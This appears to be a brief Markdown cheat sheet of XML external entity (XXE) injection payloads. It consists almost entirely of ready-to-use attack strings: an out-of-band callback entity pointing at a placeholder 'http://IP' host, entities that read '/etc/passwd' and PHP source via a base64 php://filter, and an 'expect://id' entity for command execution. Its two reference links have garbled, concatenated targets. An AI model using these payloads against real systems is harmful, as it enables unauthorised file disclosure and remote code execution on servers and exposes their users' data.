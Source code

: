 # xml external entity XXE

## Get ping back

```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://IP"> %xxe; ]>

# usage
<var>&xxe;</var>
```

## Read File

```
using php-base64 when reading file that are not being loaded
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=FILE.php"> ]>

<!DOCTYPE foo [<!ENTITY xxe SYSTEM "/etc/passwd"> ]>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>

# usage
<var>&xxe;</var>
```

## RCE using expect (PHP)

```
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "expect://id"> ]>
```

## Additional Material

* [https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entityhttps://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)
* [https://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entityhttps://depthsecurity.com/blog/exploitation-xml-external-entity-xxe-injection)
